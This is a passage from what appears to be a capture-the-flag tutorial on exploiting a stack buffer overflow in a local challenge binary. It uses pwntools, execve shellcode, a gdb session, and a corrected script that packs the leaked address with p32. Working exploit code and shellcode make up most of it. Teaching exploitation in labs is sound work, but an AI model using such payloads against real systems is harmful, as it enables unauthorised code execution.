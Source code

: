 ```py
addr = line[len("What's this:"):-2] # after colon, except last two characters i.e. ?, '\n' or newline
print "addr:", addr
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + addr
# send it!
p.send(payload)

p.interactive()
```
When you run it, a debugger window pops up, you enter `c` to continue the execution.
```
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
                                                    .
                                                    .
                                                    .
                                                    .
                                                    .

0x66667830 in ?? ()
gef➤ p $eip
0x66667830
gef➤
```
You can see that eip did change but it still looks like trash. With experience you can realise that those are ascii values. If you print it using python:
```
>>> "66667830".decode('hex')
'ffx0'
```
If you view the terminal output for the addr variable, you can understand that it is the bytes from the addr variable. What happened here was that we used the string hex representation as the address, we instead would have to use the raw bytes corresponding to that 32bit value. For this we would first have to convert the value to integer, and then convert or pack it into a string. For packing pwntools has a nice utility called `p32(num)` which converts a number to it's corresponding 32bit bytes representation. We use int(hex_string,16) to convert the hexstring to an integer number.

Modified script:

```py
from pwn import *

p = process('./chall')
gdb.attach(p)
line = p.recv()
# the address of the buffer
addr = int(line[len("What's this:"):-2],16) # after colon, except last two characters i.e. ?, '\n' or newline
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + p32(addr)
# send it!
p.send(payload)

p.interactive()
```
Run this: